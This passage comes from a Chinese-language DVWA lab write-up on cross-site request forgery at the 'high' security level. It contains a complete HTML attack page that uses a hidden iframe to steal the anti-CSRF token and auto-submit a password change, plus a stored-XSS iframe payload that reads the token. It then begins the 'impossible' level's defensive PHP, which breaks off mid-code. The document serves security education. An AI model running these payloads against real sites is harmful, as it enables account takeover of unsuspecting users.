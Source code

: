 high级别代码加入了Anti-CSRF token机制，用户每次访问改密页面时，服务器都会返回一个随机的token，当浏览器向服务器发起请求时，需要提交token参数，而服务器在收到请求时，会优先检测token，只有token正确，才会处理客户端的请求。

攻击思路是当受害者点击进入这个页面，脚本会通过一个看不见的框架偷偷访问修改密码的页面，获取页面中的token，并向服务器发送改密码的请求，以完成CSRF攻击。

```
<!DOCTYPE html>
<html>
<head lang="en">
	<meta charset="utf-8">
	<title><title>
	<script type="text/javascript">
		//获取用户的token，并设置为表单中的token，然后提交修改密码的表单
		function attack()
		{
			document.getElementsByName('user_token')[0].value=document.getElementById("hack").contentWindow.document.getElementsByName('user_token')[0].value;
			document.getElementById("transfer").submit();
		}
	</script>
</head>
<body onload="attack()">
	<iframe src="http://192.168.216.129/dvwa/vulnerabilities/csrf/" id="hack" style="display:none;"> <!--在该网页内打开另一个网页-->
	</iframe>
	<form method="GET" id="transfer" action="http://192.168.216.129/dvwa/vulnerabilities/csrf/">
		<input type="hidden" name="password_new" value="admin">
		<input type="hidden" name="password_conf" value="admin">
		<input type="hidden" name="user_token" value="">
		<input type="hidden" name="Change" value="Change">
	</form>
</body>
</html>
```

但是还有一个问题，**同源策略**，由于我们框架iframe要访问的链接是``http://192.168.216.129/dvwa/vulnerabilities/csrf/``，这是漏洞网站服务器的链接。而我们的脚本执行的位置是我们自己搭建的一个服务器，所以我们的攻击脚本是不可能跨取到改密界面的user_token。

在这里，我们想要获取用户的token，并提交修改密码的表单的话，就必须得把我们的攻击脚本注入到目标服务器中。而想要注入到目标服务器，同时得发挥作用，获取用户的token修改密码的话，就要和XSS漏洞一起结合实现。

将下列代码通过存储型XSS插入到数据库中，这语句会弹出用户的token：

```
<iframe src="../csrf/" onload=alert(frames[0].document.getElementsByName('user_token')[0].value)></iframe>
```

##### impossible

```
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $pass_curr = $_GET[ 'password_current' ];
    $pass_new  = $_GET[ 'password_new' ];
    $pass_conf = $_GET[ 'password_conf' ];

    // Sanitise current password input
    $pass_curr = stripslashes( $pass_curr );
    $pass_curr = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_curr ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $pass_curr = md5( $pass_curr );
```